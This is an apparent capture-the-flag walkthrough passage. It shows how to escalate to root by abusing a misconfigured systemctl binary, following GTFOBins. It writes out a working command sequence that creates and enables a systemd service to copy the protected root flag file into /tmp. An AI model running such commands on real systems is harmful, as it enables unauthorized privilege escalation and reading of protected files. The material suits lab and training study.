 It looks like there are a lot of different options. Let's go with `systemctl`!

`systemctl` is a command utility responsible for controlling the systemd system and service manager. 

To find out how this can be exploited, navigate to the most incredible list available to bypass restrictions and misconfigured systems... [GTFOBins](https://gtfobins.github.io/)!

Search for `systemctl` and follow the instructions to exploit the binary and gain those nice root privileges. Be aware, however, that what you want is read the root flag, not get the root id!

Take a look at the terminal input below if you have any issue. Remember, this is the Netcat listener session!

```
$ tf=$(mktemp).service
$ echo '[Service]   
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag"
> [Install]
> WantedBy=multi-user.target' > $tf
$ /bin/systemctl link $tf
Created symlink from /etc/systemd/system/tmp.M5KfpYhbYP.service to /tmp/tmp.M5KfpYhbYP.service.
$ /bin/systemctl enable --now $tf
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.M5KfpYhbYP.service to /tmp/tmp.M5KfpYhbYP.service.
```

Let's see if this worked by outputting the contents of the `flag` file in the `/tmp` directory.

```
$ cat /tmp/flag
a5<redacted-flag>d5
```

That's a wrap!
